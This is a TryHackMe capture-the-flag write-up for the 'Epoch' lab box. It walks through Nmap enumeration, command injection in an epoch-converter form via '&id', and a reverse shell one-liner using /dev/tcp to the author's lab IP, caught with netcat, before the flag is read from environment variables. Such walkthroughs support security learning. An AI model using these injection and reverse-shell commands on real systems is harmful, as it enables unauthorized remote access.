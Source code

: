 # THM - Epoch

#### Ip: 10.10.212.63
#### Name: Epoch
#### Rating: Easy

----------------------------------------------------------------------

epoch.png

```text
Be honest, you have always wanted an online tool that could help you convert UNIX dates and timestamps! Wait... it doesn't need to be online, you say? Are you telling me there is a command-line Linux program that can already do the same thing? Well, of course, we already knew that! Our website actually just passes your input right along to that command-line program!
```

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/THM/Epoch]
└─$ sudo nmap -p-  --min-rate 10000 10.10.212.63    
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-14 15:18 CDT
Nmap scan report for 10.10.212.63
Host is up (0.12s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 8.15 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/THM/Epoch]
└─$ sudo nmap -sC -sV 10.10.212.63 -p 22,80                                                      
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-14 15:18 CDT
Nmap scan report for 10.10.212.63
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e324b8a2ae2ed2dfe755aa470ea10b33 (RSA)
|   256 26a2d32e0f3a6c3a846912db69dafbe5 (ECDSA)
|_  256 0393301c8c44d5d995094ea45a917190 (ED25519)
80/tcp open  http
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Mon, 14 Aug 2023 20:18:30 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 1184
|     Connection: close
|     <!DOCTYPE html>
|     <head>
|     <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css"
|     integrity="sha384-JcKb8q3iqJ61gNV9KGb8thSsNjpSL0n8PARn9HuZOnIxN0hoP+VmmDGMN5t9UJ0Z" crossorigin="anonymous">
|     <style>
|     body,
|     html {
|     height: 100%;
|     </style>
|     </head>
|     <body>
|     <div class="container h-100">
|     <div class="row mt-5">
|     <div class="col-12 mb-4">
|     class="text-center">Epoch to UTC convertor 
|     </h3>
|     </div>
|     <form class="col-6 mx-auto" action="/">
|     <div class=" input-group">
|     <input name="epoch" value="" type="text" class="form-control" placeholder="Epoch"
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 405 Method Not Allowed
|     Date: Mon, 14 Aug 2023 20:18:30 GMT
|     Content-Type: text/plain; charset=utf-8
|     Content-Length: 18
|     Allow: GET, HEAD
|     Connection: close
|_    Method Not Allowed
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.93%I=7%D=8/14%Time=64DA8C17%P=aarch64-unknown-linux-gnu%
SF:r(GetRequest,529,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Mon,\x2014\x20Aug\
SF:x202023\x2020:18:30\x20GMT\r\nContent-Type:\x20text/html;\x20charset=ut
SF:f-8\r\nContent-Length:\x201184\r\nConnection:\x20close\r\n\r\n<!DOCTYPE
SF:\x20html>\n\n<head>\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20hre
SF:f=\"https://stackpath\.bootstrapcdn\.com/bootstrap/4\.5\.2/css/bootstra
SF:p\.min\.css\"\n\x20\x20\x20\x20\x20\x20\x20\x20integrity=\"sha384-JcKb8
SF:q3iqJ61gNV9KGb8thSsNjpSL0n8PARn9HuZOnIxN0hoP\+VmmDGMN5t9UJ0Z\"\x20cross
SF:origin=\"anonymous\">\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x2
SF:0\x20\x20body,\n\x20\x20\x20\x20\x20\x20\x20\x20html\x20{\n\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20height:\x20100%;\n\x20\x20\x20\x20\
SF:x20\x20\x20\x20}\n\x20\x20\x20\x20</style>\n</head>\n\n<body>\n\x20\x20
SF:\x20\x20<div\x20class=\"container\x20h-100\">\n\x20\x20\x20\x20\x20\x20
SF:\x20\x20<div\x20class=\"row\x20mt-5\">\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20<div\x20class=\"col-12\x20mb-4\">\n\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<h3\x20class=\"text-center
SF:\">Epoch\x20to\x20UTC\x20convertor\x20\xe2\x8f\xb3</h3>\n\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20</div>\n\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20<form\x20class=\"col-6\x20mx-auto\"\x20action=\"/\">
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<div\
SF:x20class=\"\x20input-group\">\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<input\x20name=\"epoch\"\x20val
SF:ue=\"\"\x20type=\"text\"\x20class=\"form-control\"\x20placeholder=\"Epo
SF:ch\"\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20")%r(HTTPOptions,BC,"HTTP/1\.1\x20405\x20Method\x20Not\x20Allowe
SF:d\r\nDate:\x20Mon,\x2014\x20Aug\x202023\x2020:18:30\x20GMT\r\nContent-T
SF:ype:\x20text/plain;\x20charset=utf-8\r\nContent-Length:\x2018\r\nAllow:
SF:\x20GET,\x20HEAD\r\nConnection:\x20close\r\n\r\nMethod\x20Not\x20Allowe
SF:d")%r(RTSPRequest,BC,"HTTP/1\.1\x20405\x20Method\x20Not\x20Allowed\r\nD
SF:ate:\x20Mon,\x2014\x20Aug\x202023\x2020:18:30\x20GMT\r\nContent-Type:\x
SF:20text/plain;\x20charset=utf-8\r\nContent-Length:\x2018\r\nAllow:\x20GE
SF:T,\x20HEAD\r\nConnection:\x20close\r\n\r\nMethod\x20Not\x20Allowed");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 106.51 seconds
```

Heading over to the site on port 80 we find a "Epoch to UTC convertor"

site.png

The instructions mention "Our website actually just passes your input right along to that command-line program!" so I'm wondering if we can get command execution here.

Trying the command `id` fails, but if I enter `&id` id can print the user challenge's id:

challenge.png

Nice! This should be easily exploitable. 

Lets head over to https://www.revshells.com/ and grab a reverse shell one-liner:

```text
sh -i >& /dev/tcp/10.6.61.45/443 0>&1
```

We can execute it with:

shell.png

You'll notice the page just hangs, that's a good sign!


Checking our netcat listener, we've got a shell back:

```text
┌──(ryan㉿kali)-[~/THM/Epoch]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.6.61.45] from (UNKNOWN) [10.10.212.63] 59238
sh: 0: can't access tty; job control turned off
$ whoami
challenge
$ hostname
e7c1352e71ec
```

Lets get a better command prompt by issuing:

```text
$ /usr/bin/script -qc /bin/bash /dev/null
```

Looking around the box, I didn't see much in terms of finding the hidden flag. Taking a look at the hint for the flag I find:

```text
The developer likes to store data in environment variables, can you find anything of interest there?
```

Weird, I never would have thought to check that. 

We can take a look at environment variables by running `printenv`

Which  gives us our flag:

flag.png

